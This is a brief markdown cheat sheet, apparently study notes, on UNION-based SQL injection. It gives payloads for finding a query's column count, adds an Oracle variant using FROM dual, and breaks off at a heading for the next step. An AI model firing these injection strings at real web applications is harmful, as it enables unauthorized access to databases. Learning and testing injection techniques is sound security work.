 ### UNION attack to determine number of columns
```sql
'' UNION SELECT null, null, null... -- 
```
Add/remove nulls until you don't receive an error message from the page. 

**Oracle DB requires you to specify a table to select data from, even if you are trying to select null values.** In this case your query should look like:
```sql
'' UNION SELECT null, null, null... FROM dual --
```

### Once number of columns are determined
